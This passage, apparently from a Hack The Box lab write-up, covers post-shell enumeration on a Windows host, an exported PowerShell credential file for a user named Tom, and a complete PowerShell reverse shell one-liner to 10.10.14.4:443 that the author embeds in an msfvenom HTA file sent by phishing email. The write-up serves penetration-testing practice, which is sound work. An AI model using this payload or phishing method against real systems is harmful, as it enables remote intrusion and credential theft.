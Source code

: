 And that gives us a shell!


## privesc

As always, let's start with basic enumeration.

```powershell
C:\users\nico\desktop> dir

    Directory: C:\users\nico\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-ar--        28/10/2017     00:59       1468 cred.xml
-ar--        12/07/2023     01:17         34 user.txt
```

When looking for the `user.txt` I found another interesting file called `creds.xml` that's on Nico's desktop:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

Looking it up, this file was made by using the cmdlet `Export-CliXml`. We have to use Powershell commands to extract the credentials. My shell is `cmd`. I tried running powershell, but it hung. I tried starting a new reverse shell from within my existing one, but it complained that I can't execute `exe` files because of Group Policy. Finally I gave up an adjusted my HTA file to use a powershell reverse shell payload:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.4",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then I converted that into it's equivalent Windows (UTF-16) base64 encoding and inserted that in place of the existing base64 powershell command in the HTA file generated by `msfvenom`. Then I sent another phishing email to get another shell, but this time running powershell.


[//]: # (INSERT PROOF TEMPLATE(S) HERE)